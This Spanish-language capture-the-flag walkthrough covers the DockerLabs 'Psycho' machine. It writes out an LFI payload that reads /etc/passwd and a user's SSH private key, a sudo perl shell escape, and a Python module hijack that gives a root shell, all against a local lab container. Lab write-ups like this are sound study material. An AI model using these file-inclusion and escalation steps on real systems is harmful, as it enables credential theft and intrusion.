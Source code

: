 # 🧠 Máquina: Psycho

**Nivel:** Fácil
**Plataforma:** DockerLabs
**Objetivo:** Obtener acceso como root explotando vulnerabilidades web y de configuración.

---

## 📦 Despliegue de la Máquina

Descargamos y descomprimimos la máquina:

```bash
unzip psycho.zip
sudo bash auto_deploy.sh psycho.tar
```

📸 ![](/Psycho/Imagenes/Logo.png)
📸 ![](/Psycho/Imagenes/Despliegue.jpeg)

Comprobamos la conectividad con `ping`:

```bash
ping 172.17.0.2
```

📸 ![](/Psycho/Imagenes/Ping.jpeg)

---

## 🔍 Enumeración

### Escaneo de Puertos

Usamos `nmap` para detectar los puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

📸 ![](/Psycho/Imagenes/Puertos.jpeg)

Usamos un script personalizado `extractPorts` para facilitar el siguiente escaneo:

```bash
nmap -sC -sV -p 22,80 172.17.0.2 -oN target.txt
```

📸 ![](/Psycho/Imagenes/Servicios.jpeg)

---

## 🌐 Análisis Web

Visitamos la página principal en el puerto 80:

📸 ![](/Psycho/Imagenes/Pagina.jpeg)

### Fuzzing con Gobuster

Ejecutamos `gobuster` para encontrar directorios y archivos ocultos:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

📸 ![](/Psycho/Imagenes/Gobuster.jpeg)

Se encontraron dos rutas relevantes:

* `/assets`
  📸 ![](/Psycho/Imagenes/Directorio.jpeg)

* `/index.php/assets#` (mediante fuzzing manual)
  📸 ![](/Psycho/Imagenes/Oculto.jpeg)

### Análisis de Imagen

Descargamos una imagen y la analizamos con `exiftool` buscando metadatos sensibles, pero no se encontró información útil:

```bash
exiftool background.jpg
```

📸 ![](/Psycho/Imagenes/Metadatos.jpeg)

---

## 💥 Vulnerabilidad LFI (Local File Inclusion)

En el código fuente de la página se observó un posible error, que explotamos con LFI:

```bash
curl -s -X GET "http://172.17.0.2/?secret=/etc/passwd" | grep "sh$"
```

📸 ![](/Psycho/Imagenes/Usuarios.jpeg)

Esto nos revela usuarios del sistema con shell válido, entre ellos:
`root`, `ubuntu`, `vaxei`, `luisillo`

---

## 🔑 Robo de Clave SSH

Aprovechamos la vulnerabilidad LFI para extraer la clave privada de SSH del usuario `vaxei`:

```bash
curl -s -X GET "http://172.17.0.2/?secret=/home/vaxei/.ssh/id_rsa"
```

📸 ![](/Psycho/Imagenes/curlKey.jpeg)
📸 ![](/Psycho/Imagenes/Key.jpeg)

Guardamos la clave como `id_rsa` y le damos permisos adecuados:

```bash
chmod 600 id_rsa
```

Nos conectamos vía SSH:

```bash
ssh -i id_rsa vaxei@172.17.0.2
```

📸 ![](/Psycho/Imagenes/webshell.jpeg)

---

## 📂 Revisión Inicial del Sistema

Inspeccionamos archivos visibles:

```bash
ls -l
cat file.txt
```

Archivo encontrado: `file.txt`
Contenido:

```
kflksdfsad  
asdsadsad  
asdasd  
```

---

## 🚀 Escalada de Privilegios

Verificamos los privilegios `sudo` del usuario `vaxei`:

```bash
sudo -l
```

📸 ![](/Psycho/Imagenes/Escalada.jpeg)

El resultado indica que `vaxei` puede ejecutar `perl` como el usuario `luisillo` sin contraseña:

```
(luisillo) NOPASSWD: /usr/bin/perl
```

### Escalamos a `luisillo`:

```bash
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/bash";'
```

---

## 🧑‍💻 Escalada a Root

Ya como `luisillo`, encontramos que el script `/opt/paw.py` llama a un archivo `subprocess.py`.

Creamos un archivo `subprocess.py` con el siguiente contenido malicioso:

```python
import os
os.system('bash')
```

Ejecutamos el script:

```bash
sudo /usr/bin/python3 /opt/paw.py
```

Esto lanza una shell como **root**.

📸 ![](/Psycho/Imagenes/root.jpeg)

---

## ✅ Conclusiones

* Se descubrió una vulnerabilidad de inclusión de archivos locales (LFI).
* Se logró extraer una clave privada SSH.
* Se obtuvo acceso SSH como usuario normal (`vaxei`).
* Se escaló a otro usuario (`luisillo`) mediante `sudo` mal configurado.
* Finalmente, se escaló a **root** al abusar de un script que ejecutaba código arbitrario en Python.
